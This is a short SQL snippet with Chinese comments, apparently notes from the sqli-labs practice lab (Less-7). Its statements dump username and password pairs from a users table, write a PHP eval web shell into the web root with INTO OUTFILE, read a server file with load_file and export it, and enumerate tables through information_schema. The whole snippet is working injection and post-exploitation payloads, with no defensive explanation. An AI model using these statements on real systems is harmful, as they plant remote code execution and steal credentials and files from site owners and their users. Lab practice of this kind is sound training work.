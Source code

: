 ```sql
SELECT COUNT(*) FROM `security`.`users`
# 查看数据表中的数据
select concat_ws('@',username,password) from `security`.`users` limit 0,1
# 写入文件
select '<?php @eval($_POST["giantbranch"]);?>' into outfile 'D:\\phpStudy\\WWW\\sqli-labs\\Less-7\\Leaama.php'
# 导出文件
select load_file('D:\\xxx\\index.php') into outfile 'D:\\phpStudy\\WWW\\sqli-labs\\Less-7\\xx.txt'
# 直接获取当前数据库的字段
select table_name from information_schema.tables where table_schema=database() limit 0,1
```